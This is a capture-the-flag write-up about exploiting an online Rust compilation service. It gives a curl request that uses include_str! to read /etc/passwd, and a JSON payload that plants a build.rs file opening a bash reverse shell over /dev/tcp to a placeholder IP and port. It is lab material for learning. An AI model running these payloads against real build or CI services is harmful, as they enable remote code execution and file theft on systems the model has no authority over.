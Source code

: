# Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible to send raw rust code to the online service which was returning a binary containing the Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Afterward, I thought I would be able to load the file directly, but the name of the flag file wasn't the one provided in the source files. Since I couldn’t guess the actual name of the flag file, I decided to deploy a reverse shell. In Rust, when code is compiled using Cargo, the file build.rs is (sometimes) automatically loaded into the compilation process (it is located in the root folder of your rust project). This file is often used to generate files that you want to include in your Rust project, or to run scripts before and after compilation: </p> 

````text
project_dir/
├── Cargo.toml      
├── build.rs        
├── src/
│   ├── main.rs     
│   └── lib.rs      
└── output_dir/
````

<p align="justify">So, in the context of this challenge, it was an open door to remote code execution (RCE). As a result, I deployed a reverse shell using the following JSON payload (the reverse shell payload is available in revshell.rs in this repository):</p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"IP ADDR\"; let port = \"PORT\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks _Laluka_ for tor this challenge !
